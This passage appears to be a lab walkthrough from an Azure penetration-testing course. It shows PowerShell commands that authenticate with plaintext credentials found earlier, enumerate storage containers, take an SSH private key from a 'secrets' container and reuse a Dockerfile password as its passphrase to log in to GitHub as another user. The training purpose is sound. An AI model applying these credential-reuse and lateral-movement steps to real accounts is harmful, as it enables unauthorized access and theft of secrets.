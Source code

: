 - We can now use the credentials of `stevencking@defcorphq.onmicrosoft.com` to authenticate to Azure as that User Identity.
```powershell
PS C:\Auditor> $password = ConvertTo-SecureString 'Stev3nC@nreadSt0rage@ccounts889944' -AsPlainText -Force
PS C:\Auditor> $creds = New-Object System.Management.Automation.PSCredential('stevencking@defcorphq.onmicrosoft.com', $password)
PS C:\Auditor> Connect-AzAccount -Credential $creds

Account                               SubscriptionName TenantId                             Environment
-------                               ---------------- --------                             -----------
stevencking@defcorphq.onmicrosoft.com DefCorp          2d50cb29-5f7b-48a4-87ce-fe75a941adb6 AzureCloud
```

- Let's see if we can access any Resources as this User Identity.
```powershell
PS C:\Auditor> Get-AzResource


Name              : defcorpcodebackup
ResourceGroupName : Finance
ResourceType      : Microsoft.Storage/storageAccounts
Location          : germanywestcentral
ResourceId        : /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Finance/providers/Microsoft.Storage/storageAccounts/defcorpcodebackup
Tags              :
```

- We can check for accessible Containers in that Storage Account through the Azure Portal or **Storage Explorer**. We can also do it via PowerShell.
```powershell
PS C:\Auditor> Get-AzStorageContainer -Context (New-AzStorageContext -StorageAccountName defcorpcodebackup)


   Storage Account Name: defcorpcodebackup

Name                 PublicAccess         LastModified                   IsDeleted  VersionId
----                 ------------         ------------                   ---------  ---------
client                                    3/15/2021 2:18:05 PM +00:00
secrets                                   3/15/2021 2:50:31 PM +00:00
```

- There are 2 accessible Containers, `client` and `secrets`. We have already found the frst one. The second Container has a Private SSH Key and a README file.
`SSH private key for jenniferazad`

- We can use that to connect to GitHub and access more repositories. When we are asked for a passphrase we can use the password we found earlier (`Scfufeof6@66Ggut@Acs`) in the `Dockerfile` file.
```powershell
PS C:\Users\studentuser72\Desktop> mv .\id_rsa C:\Users\studentuser72\.ssh\
PS C:\Users\studentuser72\Desktop> ssh.exe git@github.com
Enter passphrase for key 'C:\Users\studentuser72/.ssh/id_rsa':
PTY allocation request failed on channel 0
Hi jenniferazad! You've successfully authenticated, but GitHub does not provide shell access.
Connection to github.com closed.
```
